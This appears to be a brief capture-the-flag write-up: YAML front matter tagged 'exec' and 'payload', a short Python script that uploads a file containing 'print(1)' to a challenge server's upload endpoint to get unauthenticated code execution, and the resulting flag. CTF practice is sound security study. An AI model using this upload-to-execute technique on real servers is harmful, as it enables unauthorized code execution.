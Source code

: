 ```yaml
---
ai_date: 2025-04-27 05:13:32
ai_summary: Executed code in the server without authentication
ai_tags:
  - xss
  - exec
  - payload
created: 2024-08-08T08:22
points: 225
updated: 2025-07-14T09:46
---
```


Honestly IDK how tf I solved this.

Was just testing the endpoint.

```python
from io import BytesIO
import requests

payload = b"""
print(1)
""".strip()

print(requests.post('https://bugcrowd-i-am-watching-you.chals.io/upload', files={'file1': BytesIO(payload)}).text)
```

```flag
flag{the_magic_word}
```